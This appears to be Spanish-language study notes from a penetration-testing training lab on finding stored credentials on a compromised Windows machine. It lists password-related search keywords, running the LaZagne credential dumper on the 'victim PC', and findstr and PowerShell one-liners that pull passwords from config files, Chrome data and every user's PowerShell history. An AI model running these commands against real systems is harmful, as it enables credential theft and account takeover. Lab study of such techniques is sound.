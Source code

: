 Como primer herramienta podemos buscar (si estamos por rdp) podemos usar el buscador de windows con las siguientes palabras, talvez aparezcan ficheros con contraseñas guardadas:

- Passwords	
- Passphrases	
- Keys
- Username	
- User account	
- Creds
- Users	
- Passkeys	
- Passphrases
- configuration	
- dbcredential	
- dbpassword
- pwd	
- Login	
- Credentials

Lo siguiente que podemos hacer es unsar lazagne 

https://github.com/AlessandroZ/LaZagne/releases/

Una vez que lo metimos en la pc victima lo corremos con:

    start lazagne.exe all

también podemos usar el findr por cmd:

    findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml

También traer contraseñas de chrome:

    gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password

Powershell History

    gc (Get-PSReadLineOption).HistorySavePath

Podemos también en un oneliner recorrer todos los archivos historicos de powershell a los que tenemos acceso

    foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}

El archivo unnatend.xml puede tener contraseñas también


